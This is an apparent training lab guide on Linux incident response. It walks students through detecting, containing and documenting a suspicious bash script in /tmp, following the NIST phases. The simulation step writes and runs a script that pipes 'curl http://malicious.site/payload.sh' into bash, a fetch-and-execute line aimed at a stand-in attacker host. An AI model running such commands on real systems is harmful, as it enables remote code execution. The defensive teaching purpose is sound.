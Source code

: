 # **Day#12: Incident Response Basics – Linux Suspicious Bash Script Execution**

---

## 🎯 **Objective:**  
The objective of this lab is to help students understand the **core steps of incident response** by investigating a **suspicious bash script execution** on a Linux system. Students will learn how to detect, analyze, and respond to a basic script-based intrusion.

---

## 📘 **What is Incident Response?**

**Incident Response (IR)** is the process of detecting and managing a cybersecurity incident to minimize impact and restore normal operations. This lab introduces a basic Linux scenario where an attacker’s script is executed through user error or misconfiguration.

---

## 🔁 **Incident Response Process (NIST SP 800-61 Rev. 2)**

| **Phase**                         | **Description**                                                                 |
|----------------------------------|---------------------------------------------------------------------------------|
| **1. Preparation**               | Ensure logging is enabled, tools are installed, and the system is ready.        |
| **2. Detection and Analysis**    | Identify suspicious activity using logs, running processes, and file checks.    |
| **3. Containment, Eradication, and Recovery** | Isolate the threat, remove the script, and secure the system.                    |
| **4. Post-Incident Activity**    | Document the incident and implement prevention steps.                          |

---

## ⚠️ **Scenario: Suspicious Script Found in /tmp**

Your monitoring system flagged a suspicious file in `/tmp`. Upon inspection, it's a bash script (`payload.sh`) that connects to an unknown IP. You are tasked with investigating this incident.

---

## 🛠️ **Lab Setup**

### **System Requirements:**
- Ubuntu 20.04/22.04 or Kali Linux
- Terminal access with sudo privileges

### **Simulate the Incident:**

```bash
echo -e '#!/bin/bash\ncurl http://malicious.site/payload.sh | bash' > /tmp/payload.sh
chmod +x /tmp/payload.sh
```
Execute the script (mimicking a compromised action):

```
bash /tmp/payload.sh
```

## 🧪 Step-by-Step Investigation

### 1. Preparation
Ensure auditd, syslog, or basic logging is enabled.

- Install curl, lsof, ps, and grep (usually pre-installed).

### 2. Detection and Analysis
- Check running processes:
```
ps aux | grep curl
```
- Search for suspicious files:
```
find /tmp -name "*.sh"
```
- Review .bash_history for executed commands:
```
cat ~/.bash_history | grep payload.sh
```
- Check cron entries (to verify no persistence):
```
crontab -l
grep -r "payload.sh" /etc/cron*
```
### 3. Containment, Eradication, and Recovery
- Kill any related processes:
```
pkill curl
```
- Remove the malicious script:
```
rm -f /tmp/payload.sh
```
- Clear the crontab if persistence was found:
```
crontab -e
```
- Restart services if needed and log out inactive sessions.
### 4. Post-Incident Activity
- Document:
 -  What triggered the alert?
 -  What was the script doing?
 - Which user executed it?

- Recommendations:
 - Enable file integrity monitoring (e.g., AIDE).
 - Restrict /tmp execution using mount options (noexec).
 - Educate users about unknown script execution.

## Lab Checklist
✅ Simulate Script	Create and execute a suspicious bash script
✅ Investigate Logs	Use commands to analyze the event
✅ Kill and Delete	Contain and remove the malicious file
✅ Document Findings	Note IPs, users, and recommendations

## 📸 Submission
Submit screenshots of:
- The malicious script content
- Process list showing the script or curl
- .bash_history showing the command
- Script deleted from /tmp

